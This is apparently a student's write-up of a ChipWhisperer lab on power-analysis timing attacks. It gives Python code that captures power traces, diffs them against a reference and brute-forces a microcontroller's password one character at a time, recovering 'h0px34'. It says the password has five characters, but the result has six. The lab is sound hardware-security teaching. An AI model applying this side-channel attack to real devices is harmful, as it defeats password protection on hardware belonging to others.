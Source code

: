 ## Lab 2_1B

In this Lab, what we are going to do is that we try to break devices by determining, *when* a device is performing certain operations.

### Learning outcomes:


- How power can be used to determine timing information.
- Plotting multiple iterations while varying input data to find interesting locations.
- Using difference of waveforms to find interesting locations.
- Performing power captures with ChipWhisperer hardware (hardware only)



### Explanation

In this lab, the setting is like that, there is a program that asks for password. We try to hack into that by strategically finding out the password. One thing we know is that, the password is of 5 characters and the first one is `"h"`.

The strategy is that, first we understand how this password checking is being done. Like, what distingushes the correct password from the wrong one if there is any mechanism to quantify that.

The second step is to find out each character that is different from other one and using that as the password.

To check if the password is correct or not, you should get `Access granted, Welcome!` when we run `target.read()`.






### Step - 1 : Differentiating between correct password character and the other character.

Lets write a character to the MCU and compare how it is different from the character `"h"`

we can use this code snippet

```python
CHARACTER = "h\n"
reset_target(scope)
target.flush()
scope.arm()
target.write(CHARACTER)
print(scope.capture())
```

or we can do it in form of a function
```python
def cap_pass_trace(pass_guess):
    reset_target(scope)
    target.flush()
    scope.arm()
    target.write(pass_guess)
    ret = scope.capture()
    if ret:
        print('Timeout happened during acquisition')

    trace = scope.get_last_trace()
    return trace
```

New things learned here.
One thing to remember is that while writing `target.write(".......\n")`, dont forget the `"\n"`. Otherwise you may get this error:

```python
(ChipWhisperer Scope WARNING|File _OpenADCInterface.py:642) Timeout in OpenADC capture(), no trigger seen! Trigger forced, data is invalid. Status: 0b
(ChipWhisperer Scope WARNING|File _OpenADCInterface.py:642) Timeout in OpenADC capture(), no trigger seen! Trigger forced, data is invalid. Status: 08

```

Now if we check the power differences, it looks something like this..

![Power difference](power_difference.png "Power difference")\


As you can see, there is a clear difference of how the correct character is treated compared to the incorrect one. We can make use of this information and find out the correct one.

```python
ref_trace = cap_pass_trace( "\x00\n")
trace1 = cap_pass_trace('h' + "\n")
trace2 = cap_pass_trace('p' + "\n")

cw.plot(trace1-ref_trace) * cw.plot(trace2-ref_trace)
```
### Step - 2 : Finding out the correct character in each position.
As we know there are 5 characters. we take a reference trace value and delete it from the collected trace in each of the position. The correct one will have a higher average difference because it is treated differently

![reference - correct](referenceminuscorrect.png "reference - correct")


Now, if we see the averege difference, the biggest one is the correct one

```python
ref_trace = cap_pass_trace( "h0p\x00\n")


for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
    trace = cap_pass_trace("h0p" + c + "\n")
    diff = np.sum(np.abs(trace - ref_trace))
    
    print("{:1} diff = {:2}".format(c, diff))

```

``` bash
a diff = 9.0439453125
b diff = 8.048828125
c diff = 8.349609375
d diff = 11.634765625
e diff = 11.1328125
f diff = 10.4658203125
g diff = 12.326171875
h diff = 8.3095703125
i diff = 9.7939453125
j diff = 11.7451171875
k diff = 10.3857421875
l diff = 12.2255859375
m diff = 7.6640625
n diff = 11.75
o diff = 11.5693359375
p diff = 10.1650390625
q diff = 10.982421875
r diff = 8.724609375
s diff = 11.40625
t diff = 7.2529296875
u diff = 7.859375
v diff = 8.708984375
w diff = 8.4287109375
x diff = 271.5859375
y diff = 10.5361328125
z diff = 11.390625
0 diff = 12.6162109375
1 diff = 9.66015625
2 diff = 10.3408203125
3 diff = 9.8564453125
4 diff = 8.5498046875
5 diff = 8.771484375
6 diff = 8.1943359375
7 diff = 11.302734375
8 diff = 7.1376953125
9 diff = 10.5576171875
```

As you can see, `"x"` has the biggest difference.
And finally we can find out the whole password using

```python
guessed_pw = ""

for _ in range(0, 6):  
    biggest_diff = 0
    biggest_char = '\x00'
    ref_trace = cap_pass_trace(guessed_pw + "\x00\n")
    
    for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
        trace = cap_pass_trace(guessed_pw + c + "\n")
        diff = np.sum(np.abs(trace - ref_trace))

        if diff > biggest_diff:
            biggest_diff = diff
            biggest_char = c
            
    guessed_pw += biggest_char
    print(guessed_pw)
```
Finally we find out the password is `h0px34`
``` bash
h
h0
h0p
h0px
h0px3
h0px34
```
